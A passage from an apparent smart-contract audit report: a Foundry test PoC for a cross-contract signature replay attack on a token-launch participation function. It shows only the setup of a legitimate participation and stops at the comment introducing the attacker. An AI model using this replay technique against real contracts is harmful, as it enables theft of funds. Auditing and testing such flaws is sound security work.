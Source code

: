  

### PoC

Add the blow code to `Launch.Participate.t.sol 

```solidity
function test_Participate_cross_contract_replay_attack() public {
        // Setup new launch group
        bytes32 launchGroupId = bytes32(uint256(1));
        LaunchGroupSettings memory settings = _setupLaunchGroupWithStatus(launchGroupId, LaunchGroupStatus.PENDING);
        settings.finalizesAtParticipation = true;
        vm.startPrank(manager);
        launch.setLaunchGroupSettings(launchGroupId, settings);
        launch.setLaunchGroupStatus(launchGroupId, LaunchGroupStatus.ACTIVE);
        vm.stopPrank();

        // Prepare participation request
        ParticipationRequest memory request = _createParticipationRequest();
        request.launchGroupId = launchGroupId;
        bytes memory signature = _signRequest(abi.encode(request));

        vm.startPrank(user1);
        uint256 currencyAmount = _getCurrencyAmount(request.launchGroupId, request.currency, request.tokenAmount);
        currency.approve(address(launch), currencyAmount);

        // Expect ParticipationRegistered event
        vm.expectEmit();
        emit ParticipationRegistered(
            request.launchGroupId, request.launchParticipationId, testUserId, user1, currencyAmount, address(currency)
        );

        // Participate
        launch.participate(request, signature);

        // Verify participation
        ParticipationInfo memory info = launch.getParticipationInfo(request.launchParticipationId);
        assertEq(info.userAddress, user1);
        assertEq(info.userId, testUserId);
        assertEq(info.tokenAmount, request.tokenAmount);
        assertEq(info.currencyAmount, currencyAmount);
        assertEq(info.currency, address(currency));
        assertEq(info.isFinalized, true);

        // Verify total unique participants by launch group
        assertEq(launch.getNumUniqueParticipantsByLaunchGroup(request.launchGroupId), 1);

        // Verify total tokens sold
        assertEq(launch.getTokensSoldByLaunchGroup(request.launchGroupId), request.tokenAmount);

        // Verify total withdrawable amount
        assertEq(launch.getWithdrawableAmountByCurrency(address(currency)), currencyAmount);

        // Verify user tokens
        assertEq(launch.getUserTokensByLaunchGroup(request.launchGroupId, testUserId), request.tokenAmount);

        vm.stopPrank();

        // an attacker noticed that new launch with the same id ,

        
```